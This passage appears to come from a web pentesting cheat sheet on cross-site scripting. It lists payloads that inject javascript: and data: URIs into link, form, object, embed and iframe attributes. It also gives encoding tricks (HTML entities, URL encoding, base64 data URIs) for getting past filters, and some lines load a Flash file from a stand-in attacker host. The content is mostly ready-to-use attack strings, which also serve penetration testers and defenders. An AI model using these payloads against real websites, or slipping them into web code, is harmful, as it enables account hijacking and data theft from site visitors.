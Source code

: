 **Places where you can inject these protocols**

**In general** the `javascript:` protocol can be **used in any tag that accepts the attribute `href`** and in **most** of the tags that accepts the **attribute `src`** (but not `<img`)

```markup
<a href="javascript:alert(1)">
<a href="data:text/html;base64,PHNjcmlwdD5hbGVydCgiSGVsbG8iKTs8L3NjcmlwdD4=">
<form action="javascript:alert(1)"><button>send</button></form>
<form id=x></form><button form="x" formaction="javascript:alert(1)">send</button>
<object data=javascript:alert(3)>
<iframe src=javascript:alert(2)>
<embed src=javascript:alert(1)>

<object data="data:text/html,<script>alert(5)</script>">
<embed src="data:text/html;base64,PHNjcmlwdD5hbGVydCgiWFNTIik7PC9zY3JpcHQ+" type="image/svg+xml" AllowScriptAccess="always"></embed>
<embed src="data:image/svg+xml;base64,PHN2ZyB4bWxuczpzdmc9Imh0dH A6Ly93d3cudzMub3JnLzIwMDAvc3ZnIiB4bWxucz0iaHR0cDovL3d3dy53My5vcmcv MjAwMC9zdmciIHhtbG5zOnhsaW5rPSJodHRwOi8vd3d3LnczLm9yZy8xOTk5L3hs aW5rIiB2ZXJzaW9uPSIxLjAiIHg9IjAiIHk9IjAiIHdpZHRoPSIxOTQiIGhlaWdodD0iMjAw IiBpZD0ieHNzIj48c2NyaXB0IHR5cGU9InRleHQvZWNtYXNjcmlwdCI+YWxlcnQoIlh TUyIpOzwvc2NyaXB0Pjwvc3ZnPg=="></embed>
<iframe src="data:text/html,<script>alert(5)</script>"></iframe>

//Special cases
<object data="//hacker.site/xss.swf"> .//https://github.com/evilcos/xss.swf 
<embed code="//hacker.site/xss.swf" allowscriptaccess=always> //https://github.com/evilcos/xss.swf 
<iframe srcdoc="<svg onload=alert(4);>">
```

**Other obfuscation tricks**

_**In this case the HTML encoding and the Unicode encoding trick from the previous section is also valid as you are inside an attribute.**_

```javascript
<a href="javascript:var a='&apos;-alert(1)-&apos;'">
```

Moreover, there is another **nice trick** for these cases: **Even if your input inside `javascript:...` is being URL encoded, it will be URL decoded before it's executed.** So, if you need to **escape** from the **string** using a **single quote** and you see that **it's being URL encoded**, remember that **it doesn't matter,** it will be **interpreted** as a **single quote** during the **execution** time.

```javascript
&apos;-alert(1)-&apos;
%27-alert(1)-%27
<iframe src=javascript:%61%6c%65%72%74%28%31%29></iframe>
```

Note that if you try to **use both** `URLencode + HTMLencode` in any order to encode the **payload** it **won't** **work**, but you can **mix them inside the payload**.

**Using Hex and Octal encode with `javascript:`**

You can use **Hex** and **Octal encode** inside the `src` attribute of `iframe` (at least) to declare **HTML tags to execute JS**:

